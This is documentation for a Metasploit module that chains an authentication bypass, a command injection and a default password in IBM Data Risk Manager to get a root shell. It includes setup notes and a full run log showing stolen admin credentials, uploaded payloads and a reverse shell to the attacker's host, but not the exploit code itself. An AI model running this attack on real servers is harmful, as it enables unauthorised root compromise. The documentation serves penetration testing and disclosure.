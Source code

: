 ## Vulnerable Application
IBM Data Risk Manager (IDRM) contains three vulnerabilities that can be chained by an unauthenticated attacker to achieve remote code execution as root.
The first is an unauthenticated bypass, followed by a command injection as the server user and finally abuse of an insecure default password.
This module exploits all three vulnerabilities, giving the attacker a root shell.
At the time of disclosure, this is a 0 day. Versions 2.0.3 and below are confirmed to be affected, and the latest 2.0.6 is most likely affected too.

**Vulnerable Application Installation Steps**

The application is available to download as Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set RHOSTS and LHOST.
A successful exploit will look like this:
```
msf5 exploit(linux/http/ibm_drm_unauth_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.213:8443 - Successfully "stickied" our session ID JQElTQxh
[+] 10.9.8.213:8443 - We have obtained a new admin password 28010e88-6ffb-46e9-90d6-2ded732120d1
[+] 10.9.8.213:8443 - ... and are authenticated as an admin!
[*] 10.9.8.213:8443 - Detected IBM Data Risk Manager version 2.0.2 or above
[+] 10.9.8.213:8443 - We have uploaded our payload...
[+] 10.9.8.213:8443 - and our nmap script file!
[+] 10.9.8.213:8443 - Bearer token 1b78100c-cf42-47fd-b64d-d36c07f1f934 obtained, wait for the final step where we invoke nmap...
[+] 10.9.8.213:8443 - Shell incoming!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.213:57136) at 2020-04-21 15:46:29 +0700

whoami
root
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
```

## Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

